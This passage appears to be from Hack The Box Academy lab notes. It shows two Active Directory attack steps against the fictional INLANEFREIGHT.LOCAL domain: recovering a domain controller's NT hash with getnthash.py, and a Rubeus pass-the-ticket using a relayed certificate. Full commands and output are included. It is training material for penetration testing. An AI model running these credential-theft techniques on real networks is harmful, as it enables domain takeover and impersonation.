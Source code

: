 ## Alternative M1

We can use TGT along with `getnthash.py` to request the NT hash for our target host/user:

```shell-session
jadu101@htb[/htb]$ python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
313b6f423cd1ee07e91315b4919fb4ba
```

## Alternative M2

With the base64 encoded certificate obtained from ntlmrelayx.py, we can use it with Rubeus tool on Windows attack host to request a TGT ticket and perform a PtT attack.



```powershell-session
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Building AS-REQ (w/ PKINIT preauth) for: 'INLANEFREIGHT.LOCAL\ACADEMY-EA-DC01$'
[*] Using domain controller: 172.16.5.5:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
 doIGUDCCBkygAwIBBaEDAgEWooIFSDCCBURhggVAMIIFPKADAgEFoRUbE0lOTEF
      TkxBTkVGUkVJR0hULkxPQ0FMoh0wG6ADAgEBoRQwEhsQQUNBREVNWS1FQS1EQzAxJKMHAwUAQOEAAKUR
      
<SNIP>
      TkxBTkVGUkVJR0hULkxPQ0FMqSgwJqADAgECoR8wHRsGa3JidGd0GxNJTkxBTkVGUkVJR0hULkxPQ0FM
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/INLANEFREIGHT.LOCAL
  ServiceRealm             :  INLANEFREIGHT.LOCAL
  UserName                 :  ACADEMY-EA-DC01$
  UserRealm                :  INLANEFREIGHT.LOCAL
  StartTime                :  3/30/2022 3:50:25 PM
  EndTime                  :  3/31/2022 1:50:25 AM
  RenewTill                :  4/6/2022 3:50:25 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  d/AohN1w1ZZXsks8cCUlbg==
  ASREP (key)              :  2A621F62C32241F38FA68826E95521DD
```
